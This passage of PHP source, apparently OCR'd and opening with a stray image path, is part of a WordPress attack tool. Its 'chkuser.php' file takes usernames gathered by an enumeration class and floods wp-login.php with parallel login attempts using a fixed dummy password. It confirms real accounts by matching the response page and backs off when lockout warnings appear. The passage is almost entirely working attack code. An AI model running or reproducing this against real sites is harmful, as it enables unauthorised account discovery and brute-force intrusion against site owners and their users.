 	        if (count($this->names) == 0) {
	            exit('[-] Unable to find user!');
	        }
	        
	        echo "[+] Find " . count($this->names) . ' users' . PHP_EOL;
	    }
	    
	    function result() {
	        
	        return $this->names;
	    }
	}
	?>

chkuser.php

	<?php
	include 'init.php';
	class Chkuser
	{
	    
	    private $rc;
	    private $names;
	    function __construct() {
	        $this->rc = new RollingCurl();
	        $this->rc->callback = $this->create_request_callback($this->rc);
	        $this->rc->__set('window_size', Thread);
	        $this->rc->__set('time_out', TimeOut);
	    }
	    
	    function create_request_callback($rc) {
	        return function ($response, $info, $request) use ($rc) {
	            if ($info['http_code'] == 404 || $info['http_code'] == 403 || $info['http_code'] == 500) {
	                echo '[-] Access error!' . PHP_EOL;
	                $this->rc->cancelRequests();
	            }
	            preg_match('#log=(.+)&pwd=#', $request->post_data, $out);
	            $user = $out[1];
	            
	            if (stristr($response, "<strong>" . $user . "</strong>")) {
	                $this->names[] = $user;
	            }
	            if (stristr($response, 'Too many failed login attempts')) {
	                $this->rc->cancelRequests();
	            }
	        };
	    }
	    
	    function run() {
	        include_once 'enum_user.php';
	        $collector = new EnumUser();
	        $collector->run();
	        $users = $collector->result();
	        printf("[+] %s Chkusers Loginname...\r\n", date('h:i:s', time()));
	        foreach ($users as $user) {
	            $url = domain . '/wp-login.php';
	            $post_data = "log={$user}&pwd=UjP8XnFD4n3LzIjlax";
	            $request = new RollingCurlRequest($url, 'POST', $post_data);
	            $request->options = array(CURLOPT_USERAGENT => USERAGENT);
	            $this->rc->add($request);
	        }
	        $this->rc->execute();
	        $counts = count($this->names);
	        if ($counts == 0) {
	            echo '[-] Warning Unable Check Loginuser!' . PHP_EOL;
	            $this->names = $users;
	            $counts = count($this->names);
	        }